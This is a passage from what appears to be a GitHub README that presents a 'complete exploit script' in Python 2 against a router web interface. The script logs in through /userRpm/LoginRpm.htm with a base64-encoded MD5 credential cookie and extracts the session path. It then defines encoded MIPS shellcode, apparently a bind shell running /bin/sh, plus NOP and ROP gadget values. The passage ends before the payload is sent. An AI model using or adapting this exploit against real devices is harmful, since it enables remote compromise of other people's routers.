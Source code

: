 - [完整的漏洞利用脚本](exp.py)
```py
import urllib2
import urllib
import base64
import hashlib
import os
def login(ip, user, pwd):
    hash = hashlib.md5()
    hash.update(pwd)
    auth_string = "%s:%s" %(user, hash.hexdigest())
    encoded_string = base64.b64encode(auth_string)
    print "[debug] Encoded authorisation: %s" %encoded_string
    url = "http://" + ip + "/userRpm/LoginRpm.htm?Save=Save"
    print "[debug] sending login to " + url
    req = urllib2.Request(url)
    req.add_header('Cookie', 'Authorization=Basic %s' %encoded_string)
    resp = urllib2.urlopen(req)
    data = resp.read()
    next_url = "http://%s/%s/userRpm/" %(ip, data.split("/")[3])
    print "[debug] Got random path for next stage, url is now %s" %next_url
    return (next_url, encoded_string)

shellcode = (
    #encoder
    "\x22\x51\x44\x44\x3c\x11\x99\x99\x36\x31\x99\x99"
    "\x27\xb2\x05\x9f"
    "\x22\x52\xfc\xa0\x8e\x4a\xfe\xf9"
    "\x02\x2a\x18\x26\xae\x43\xfe\xf9\x8e\x4a\xff\x41"
    "\x02\x2a\x18\x26\xae\x43\xff\x41\x8e\x4a\xff\x5d"
    "\x02\x2a\x18\x26\xae\x43\xff\x5d\x8e\x4a\xff\x71"
    "\x02\x2a\x18\x26\xae\x43\xff\x71\x8e\x4a\xff\x8d"
    "\x02\x2a\x18\x26\xae\x43\xff\x8d\x8e\x4a\xff\x99"
    "\x02\x2a\x18\x26\xae\x43\xff\x99\x8e\x4a\xff\xa5"
    "\x02\x2a\x18\x26\xae\x43\xff\xa5\x8e\x4a\xff\xad"
    "\x02\x2a\x18\x26\xae\x43\xff\xad\x8e\x4a\xff\xb9"
    "\x02\x2a\x18\x26\xae\x43\xff\xb9\x8e\x4a\xff\xc1"
    "\x02\x2a\x18\x26\xae\x43\xff\xc1"#sleep
    "\x24\x12\xff\xff\x24\x02\x10\x46\x24\x0f\x03\x08"
    "\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
    "\x27\xa4\xfb\xfa\x01\x01\x01\x0c\x21\x8c\x11\x5c"
    "\x27\xbd\xff\xe0\x24\x0e\xff\xfd\x98\x59\xb9\xbe\x01\xc0\x28\x27\x28\x06"
    "\xff\xff\x24\x02\x10\x57\x01\x01\x01\x0c\x23\x39\x44\x44\x30\x50\xff\xff"
    "\x24\x0e\xff\xef\x01\xc0\x70\x27\x24\x0d"
    "\x7a\x69"           
    "\x24\x0f\xfd\xff\x01\xe0\x78\x27\x01\xcf\x78\x04\x01\xaf\x68\x25\xaf\xad"
    "\xff\xe0\xaf\xa0\xff\xe4\xaf\xa0\xff\xe8\xaf\xa0\xff\xec\x9b\x89\xb9\xbc"
    "\x24\x0e\xff\xef\x01\xc0\x30\x27\x23\xa5\xff\xe0\x24\x02\x10\x49\x01\x01"
    "\x01\x0c\x24\x0f\x73\x50"
    "\x9b\x89\xb9\xbc\x24\x05\x01\x01\x24\x02\x10\x4e\x01\x01\x01\x0c\x24\x0f"
    "\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x10\x48"
    "\x01\x01\x01\x0c\x24\x0f\x73\x50\x30\x50\xff\xff\x9b\x89\xb9\xbc\x24\x0f"
    "\xff\xfd\x01\xe0\x28\x27\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f\x73\x50"
    "\x9b\x89\xb9\xbc\x28\x05\x01\x01\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f"
    "\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\xbd\x9b\x96\x46\x01\x01\x01\x0c"
    "\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xec\x3c\x0e\x6e\x2f\x35\xce"
    "\x73\x68\xaf\xae\xff\xf0\xaf\xa0\xff\xf4\x27\xa4\xff\xec\xaf\xa4\xff\xf8"
    "\xaf\xa0\xff\xfc\x27\xa5\xff\xf8\x24\x02\x0f\xab\x01\x01\x01\x0c\x24\x02"
    "\x10\x46\x24\x0f\x03\x68\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
    "\x27\xa4\xfb\xfe\x01\x01\x01\x0c\x21\x8c\x11\x5c"
    )
nop = "\x22\x51\x44\x44"
gadg_1 = "\x2A\xB3\x7C\x60"
gadg_2 = "\x2A\xB1\x78\x40"
```